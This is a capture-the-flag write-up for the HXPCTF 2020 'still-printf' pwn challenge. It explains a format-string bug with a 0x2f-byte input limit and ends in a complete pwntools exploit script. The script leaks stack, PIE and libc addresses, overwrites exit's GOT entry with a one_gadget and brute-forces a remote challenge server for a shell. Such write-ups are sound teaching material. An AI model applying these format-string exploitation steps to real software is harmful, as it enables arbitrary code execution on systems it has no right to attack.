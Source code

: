 ```yaml
---
layout: post
title: HXPCTF 2020 - still-printf 
category: Pwn
tags: 
    - hk
---
```

# Challenge Description

Desc ![m1](/assets/img/still-printf.PNG)

We got the following files and Source is provided. YAY

```
total 2020
drwx------ 2 1337 1337    4096 Dec 23 12:11 .
drwxr-xr-x 4 root root    4096 Dec 19 15:18 ..
-rw------- 1 root root    2421 Dec 20 09:48 .gdb_history
-rw-r--r-- 1 1337 1337    1410 Dec 19 05:46 Dockerfile
-rwxr-xr-x 1 1337 1337  165632 Jan  1  1970 ld-2.28.so
-rwxr-xr-x 1 1337 1337 1824496 Jan  1  1970 libc-2.28.so
-rwxr-xr-x 1 1337 1337   12336 Dec 18 15:09 still-printf
-rw-r--r-- 1 1337 1337     152 Dec 18 15:05 still-printf.c
-rwxr-xr-x 1 1337 1337   34712 Jan  1  1970 ynetd
```



```c
#include <stdio.h>
#include <stdlib.h>

int main() {
        char buf[0x30];
        setbuf(stdout, NULL);
        fgets(buf, sizeof(buf), stdin);
        printf(buf);
        exit(0);
}
```
A simple format-string bug. But the program exits right after printf.

 ![m1](/assets/img/question.jpg)

Here's the checksec output of the program.
```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

I dumped the stack and looked for stack pointer chains.

![m2](/assets/img/stack_layout.png) ![m3](/assets/img/layout_2.PNG)

```
09:0048│   0x7ffe308bfc08 —▸ 0x7ffe308bfce8 —▸ 0x7ffe308c0894 ◂— '/root/hxpctf/still-printf/still-printf'
$15 -> $41 was the closest one that just 'perfectly' fits into the length of 0x2f bytes.
```

# Solution
My solution includes guessing ( ( stack_address&0xfff0 ) >> 4 ) byte value. The possibility is 1 / 4096.

We need to make this into multiple tries to get the code execution. printf calls vfprintf internally. By overwriting the return address of printf we can make this into multiple shots. But the challenging part is the max len of input, which is 0x2f bytes, but turns out that it's all we need to get code execution.

I knew the behaviour of vfprintf from another ctf challenge 0ctf quals - echoserver.
First i overwrote the pointer at 15th offset to point it to return address of printf (guessing LSB stack address).
THen we can use 41$n/hhn/hn to change the return address of printf.
But the way vfprintf works is, we can not do this, %`write`c%15$hn%`write`c%41$hn. When vfprintf encounters the first positional parameter `$` it copies all needed argument to an internal buffer, now if we do %41$hn to change the return address, it will fetch the original value which was there instead of the changed value.
The idea is the use "%c"*offset to reach the stack pointer and then we can do %hn to do the write so that the 41th offset points to the return address of printf. Then we can use %41$n/hn/hhn to change the return address.
The max input was 0x2f bytes and my payload fit exact 0x2f bytes.

Here's the main payload
```py
magic_number = 0x1337
payload = ('%c%p'+'%c'*8 +'%c%c%c' +f'%{ (magic_number + 1 ) - (0xd + 0x5 + 0x8 )}c'+'%hn'+f'%{ 0xdd - ( (magic_number+1)&0xff) }c'+'%41$hhn').ljust(0x2f)
```
Note: I use %p once in the payload to leak the a stack address.

If the bruteforce is sucessfull, later it's just trivial, i made this into multiple shots and partial overwrite exit_got with one_gadget.

# Exploit
```py
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random
import subprocess

# Addr
libc_leak_offset = 0x2409b
gadget1 = 0x448a3
system = 0x449c0

# Hack
def Hack():
 global io

 exe = ELF('./still-printf')
 magic_number = 0x1337
 
 # Leak stack pointer And hope for good luck.
 payload = ('%c%p'+'%c'*8 +'%c%c%c' +f'%{ (magic_number + 1 ) - (0xd + 0x5 + 0x8 )}c'+'%hn'+f'%{ 0xdd - ( (magic_number+1)&0xff) }c'+'%41$hhn').ljust(0x2f)
 print(hex(len(payload)))
 io.send(payload)

 io.recvuntil('\xd0')
 stack_leak = int(io.recvn(14),0)
 print(hex(stack_leak))

 # Leak some addresses PIE - LIBC and overwrite return of printf again to get more shots. (stack leak used here)
 payload2 = f'%{0xdd}c%11$hhn%12$p%13$p'.ljust(0x28,'A').encode() + p64(stack_leak - 0x8)[0:7]
 io.send(payload2)
 io.recvuntil('\xd0')
 pie_base = int(io.recvn(14),0) - 0x1200
 libc_leak = int(io.recvn(14),0)
 libc_base = libc_leak - libc_leak_offset
 print(hex(libc_base))
 print(hex(pie_base))

 # Get pie_address (exit_got) on stack
 payload3 = f'%{0xdd}c%11$hhn%{ ((pie_base+exe.got["exit"] )&0xffff) - 0xdd}c%10$hn'.ljust(0x20,'A').encode() + p64(stack_leak + 0x30)+p64(stack_leak - 0x8)[0:7]
 print(hex(len(payload3)))
 io.send(payload3)

 # Partial overwrite it to one_gadget
 payload4 = f'%{0xdd}c%11$hhn%{ ( (libc_base+gadget1)&0xffff ) - 0xdd}c%12$hn'.ljust(0x28,'\0').encode() + p64(stack_leak - 0x8)[0:7]
 io.send(payload4)\

 payload5 = f'%{0xdd}c%11$hhn%{ ( ( ( (libc_base+gadget1)&0xffffffff)&0xffff0000 ) >> 16 ) - 0xdd}c%10$hn'.ljust(0x20,'A').encode() + p64(pie_base+exe.got['exit']+0x2)+p64(stack_leak - 0x8)[0:7]
 io.send(payload5)
 
 # setup Gadget constraints [rsp + 0x30] == NULL and exit.
 payload6 = f'%{ (pie_base + 0x1100 )&0xffff}c%10$hn'.ljust(0x20,'\0').encode()+p64(stack_leak-0x8) + p64(0)[0:7]
 print(hex(len(payload6)))
 io.send(payload6)

for i in xrange(4096):
 try:
  #io = process('./still-printf')
  io = remote('168.119.161.224',9509)
  Hack()
  io.sendline('cat /flag*')
  data = io.recv()
  print(data)
  io.interactive()
 except:
  io.close()
  continue
``` 
